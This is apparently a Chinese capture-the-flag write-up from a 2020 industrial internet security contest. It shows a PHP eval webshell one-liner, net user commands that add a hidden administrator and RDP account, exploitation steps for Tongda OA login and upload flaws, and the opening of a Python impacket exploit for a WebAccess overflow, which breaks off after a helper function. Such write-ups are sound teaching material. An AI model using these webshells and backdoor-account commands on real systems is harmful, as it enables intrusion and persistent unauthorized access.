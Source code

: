 `echo ^<?php eval($_POST["shell"]); ?^> >1.php`

蚁剑连接 1.php, 上 cs 提权

![](../../../../assets/img/Security/CTF/writeup/2020-11-I²S峰会暨工业互联网安全大赛/7.png)
```
net user a Abcd1234 /add
net localgroup administrators a /add
net localgroup "Remote Desktop Users" a /add
```

输入上面的命令生成 rdp 用户

修改 admin 用户密码，rdp 登录，一样的步骤 如果找不到可以上传一个 everything 搜索 flag.txt

---

# oa

存在一个通达 OA 任意用户登录漏洞，用 poc 直接打可以进后台

通过通达 OA 任意文件上传漏洞，本地文件包含漏洞

![](../../../../assets/img/Security/CTF/writeup/2020-11-I²S峰会暨工业互联网安全大赛/12.png)

![](../../../../assets/img/Security/CTF/writeup/2020-11-I²S峰会暨工业互联网安全大赛/9.png)

成功拿 shell, 加用户

![](../../../../assets/img/Security/CTF/writeup/2020-11-I²S峰会暨工业互联网安全大赛/11.png)

```
net user a Abcd1234 /add
net localgroup administrators a /add
net localgroup "Remote Desktop Users" a /add
```

rdp 连接 a 用户，打开用户管理，修改 administrator 用户密码，rdp 登录用户 到回收站里拖 flag 文件到桌面即可

![](../../../../assets/img/Security/CTF/writeup/2020-11-I²S峰会暨工业互联网安全大赛/10.png)

---

# mes

这题我们 RDP 在 web 的机器上做的，扫描后面的一个 C 段，发现 mes 的 IP 地址, 然后根据提示用 webaccess 的溢出漏洞打

![](../../../../assets/img/Security/CTF/writeup/2020-11-I²S峰会暨工业互联网安全大赛/14.png)

```py
#!/usr/bin/python2.7

import sys, struct
from impacket import uuid
from impacket.dcerpc.v5 import transport

def call(dce, opcode, stubdata):
  dce.call(opcode, stubdata)
  res = -1
  try:
    res = dce.recv()
  except Exception, e:
    print "Exception encountered..." + str(e)
    sys.exit(1)
  return res

```